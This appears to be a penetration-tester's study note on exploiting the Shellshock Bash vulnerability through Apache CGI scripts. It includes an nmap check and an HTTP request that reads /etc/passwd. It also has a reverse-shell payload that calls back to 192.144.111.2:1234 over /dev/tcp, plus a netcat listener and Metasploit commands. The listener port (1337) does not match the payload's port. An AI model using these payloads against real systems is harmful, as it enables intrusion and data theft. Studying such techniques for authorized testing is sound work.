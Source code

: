 --- 
Linux has various use cases, however, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.

These services provide an attacker with an access vector that they can utilize to gain access to a target host.

**Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.**

![[Pasted image 20230416082427.png]]

## Exploiting Linux Vulnerabilities

### CVE-2014-6271 - Shellshock
 Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that **allow an attacker to execute remote arbitrary commands** via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.

- The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
- Bash is a \*Nix shell that is part of the GNU project and is the default shell for most Linux distributions.

In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.

- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.

-  Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.

-  This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

#### Manual Exploration
Enumetating using Nmap
``` bash
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>

# Attempts to exploit the "shellshock" vulnerability (CVE-2014-6271 and CVE-2014-7169) in web applications.
```

Change the Request section with the following code to test whether the target is vulnerable or not.
``` http
GET /cgi-bin/status HTTP/1.0  
User-Agent: () { :; }; echo; echo; /bin/bash -c "cat /etc/passwd"

```

For getting a revere shell, use the above request.
```http
GET /cgi-bin/status HTTP/1.1  
Host: 192.168.169.139  
User-Agent: () { :; }; echo; echo; /bin/bash -c " bash -i >& /dev/tcp/192.144.111.2/1234 0>&1"
Accept: text/html, application/xhtml-xml, application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Connection: close  
Upgrade-Insecure-Requests: 1
```

``` bash
 nc -nlvp 1337
 ```

#### Exploit Using Metasploit
```
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf exploit(apache_mod_cgi_bash_env_exec) > exploit
```


> **FOR**:
> 	Exploiting FTP
> 	Exploiting SSH
> 	Exploiting SAMBA
  **[[4 Enumeration]]** section fouces on enumeration and exploiting these services.